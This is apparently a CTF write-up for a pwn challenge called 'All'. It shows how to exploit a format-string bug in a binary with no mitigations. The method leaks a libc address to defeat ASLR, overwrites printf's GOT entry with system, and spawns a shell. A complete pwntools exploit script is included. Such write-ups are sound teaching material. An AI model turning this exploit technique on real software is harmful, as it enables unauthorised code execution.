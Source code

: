 https://ctftime.org/event/2252/

# All (Pwn)

What if I just.... put ALL the vulnerabilities in there? With no mitigations?

nc all.chal.cyberjousting.com 1348

## Binary Analysis

`vuln` @ `0x00401199`:
- `read` of `0x100` into buffer on stack at `-0x28`
- `printf` of user controlled buffer

As the description alludes there are essentially no mitigations in the binary itself:

```
$ pwn checksec ./src/all
[*] '/home/user/ctf/pwn/all/src/all'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

It is likely that there are many other possible solutions to this challenge, that seems to been the intention of the author, so please consider this just one of many rather than the only way to do it.

## Solution

### Abitary Write With Format String

We will use the controlled buffer passed to `printf` to perform a `GOT` overwrite.

Specifically we will swap the entry for `printf` with the value address of `system`.

We will do this using `fmtstr_payload` from pwntools that takes:
- The index of the first argument which corresponds to the format string
- A map of locations to write and values to write to them

In order to determine the index we can simply invoke the binary as follows:

```
$ echo "%p.%p.%p.%p.%p.%p.%p" | nc all.chal.cyberjousting.com 1348
0x7ffe0c7bac00.0x100.0x7f01efbf17e2.0x7f01efcf8f10.0x7f01efd10040.0x70252e70252e7025.0x252e70252e70252e
^C
```

We can see that the 6th value corresponds to the hex representation of our format string:

```
$ echo -n "%p.%p.%p.%p.%p.%p.%p" | xxd -p
25702e25702e25702e25702e25702e25702e2570
```

### ASLR Bypass

In order write to the `GOT` entry for `printf` we need to know the ASLR base that `libc.so` is using.

From the earlier `printf` output we can see addresses that probably point to `libc.so` in the 3rd slot.

We can check this with a debugger:

```
$ gdb -q ./src/all
pwndbg> r
%p.%p.%p.%p.%p.%p.%p
0x7fffffffdb70.0x100.0x7ffff7d1a7a1.(nil).0x7ffff7fcb180.0x70252e70252e7025.0x252e70252e70252e
^C
pwndbg> xinfo 0x7ffff7d1a7a1
Extended information for virtual address 0x7ffff7d1a7a1:

  Containing mapping:
    0x7ffff7c26000     0x7ffff7da5000 r-xp   17f000  26000 /usr/lib/x86_64-linux-gnu/libc.so.6

  Offset information:
         Mapped Area 0x7ffff7d1a7a1 = 0x7ffff7c26000 + 0xf47a1
         File (Base) 0x7ffff7d1a7a1 = 0x7ffff7c00000 + 0x11a7a1
      File (Segment) 0x7ffff7d1a7a1 = 0x7ffff7c26000 + 0xf47a1
         File (Disk) 0x7ffff7d1a7a1 = /usr/lib/x86_64-linux-gnu/libc.so.6 + 0x11a7a1

 Containing ELF sections:
               .text 0x7ffff7d1a7a1 = 0x7ffff7c267c0 + 0xf3fe
```

In order to compute the `libc.so` base:
- Leak the specific value we are interested in with `%3$p`.
- Subtract the base of `libc.so` from the leak:
    - `0x7ffff7d1a7a1 - 0x7ffff7c00000 = 0x11a7a1`
- Figure out what `0x11a7a1` refers to by looking at `libc.so` in a disassembler:
    - `read+0x17` or `0x17` bytes after the `read` symbol.
    - Its also possible to do this in the debugger.
- Copy the version of `libc.so` that the remote uses from the provided Dockerfile:
    - `$ docker cp id:/lib/x86_64-linux-gnu/libc.so.6 ./libc.so`
    - Which has the following SHA-2-256 hash:
        - `67d9e00d38d59674367ca4591666c67e5dfad9e4fdd3861a59d6f26ffea87f65`
- Figure out the offset from the image base that corresponds to same logical point in the remote's `libc.so`:
    - `read+0x17 = 0x1147e2`
- Now we are ready to leak the address of `read+0x17` from the remote and subtract `0x1147e2` in order to compute the base.
- In order to compute the address of `printf`'s entry in the `GOT` at the given ASLR base we'll use pwntools:
    - First set the base address of the image so it matches that of the remote:
        - `ELF("./libc.so").address = leak - 0x1147e2`
            - Where `"./libc.so"` is a local copy of the `libc.so` we copied from the running container.
    - Now you can read addresses from the `GOT` and they will match the remote exactly:
        - e.g. `elf.got["printf"]`

### Calling System

Now that calls to `printf`, via the modifed `GOT`, are actually calls to `system` we simply allow the code to loop once more supplying the string `/bin/sh\x00` to `read` such that it will be passed to `printf` and therefore acts like `system("/bin/sh\x00")`.

### Final Exploit

```
from pwn import *

elf = ELF("./src/all", checksec=False)
context.binary = elf
libc = ELF("./libc.so")

p = remote("all.chal.cyberjousting.com", 1348)

p.sendline(b"%3$p")

leak = int(p.readline().decode(), 16)
READ_PLUS_0x17 = 0x1147e2
libc.address = leak - READ_PLUS_0x17

payload = fmtstr_payload(6, {elf.got["printf"]: libc.sym["system"]})
p.sendline(payload)

p.sendline(b"/bin/sh")

p.clean()

p.interactive()
```

## Flag
`byuctf{too_many_options_what_do_I_chooooooose}`
